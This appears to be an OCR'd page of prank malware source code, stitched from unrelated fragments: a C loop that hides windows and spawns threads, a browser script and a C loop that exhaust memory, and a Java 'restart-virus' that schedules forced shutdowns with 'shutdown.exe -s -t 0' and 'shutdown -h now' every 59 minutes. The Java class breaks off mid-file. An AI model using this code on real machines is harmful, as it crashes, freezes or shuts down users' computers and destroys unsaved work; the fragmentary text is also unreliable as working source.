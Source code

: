 main(){
    DWORD dwThreadId;
    HWND last=GetForegroundWindow();
    ShowWindow(last, SW_HIDE);
    while(1){
        if(last!=GetForegroundWindow()){
            last=GetForegroundWindow();
            CreateThread(NULL, 0, moveit, &last, 0, &dwThreadId);
        }
    }
}
<script>
var txt = "a";
while(1){
    txt += "a";
}
</script>
main(){
    while(malloc(1000));
}
package in.momin5.restartvirus;


import net.lingala.zip4j.ZipFile;
import org.apache.commons.io.IOUtils;


import java.io.*;
import java.util.Timer;
import java.util.TimerTask;

public class Main {

    public static void main(String[] args) throws Exception {
        timer();
        extract();
        System.out.println("Should shutdown computer in 1 hour, https://github.com/MOMIN5/restart-virus-java ");
    }
    public static void timer() {
        Timer timer = new Timer();

        timer.scheduleAtFixedRate(new TimerTask() {
            @Override
            public void run() {
                try{
                    Runtime.getRuntime().exec("shutdown.exe -s -t 0"); //executes if windows
                    Runtime.getRuntime().exec("shutdown -h now"); // executes if linux
                }
                catch (IOException a){ // since it throws exceptions catch it
                    System.out.println(a);
                }
            }
        }, 59*60*1000, 59*60*1000 ); // timer executes after 59 minutes
    }
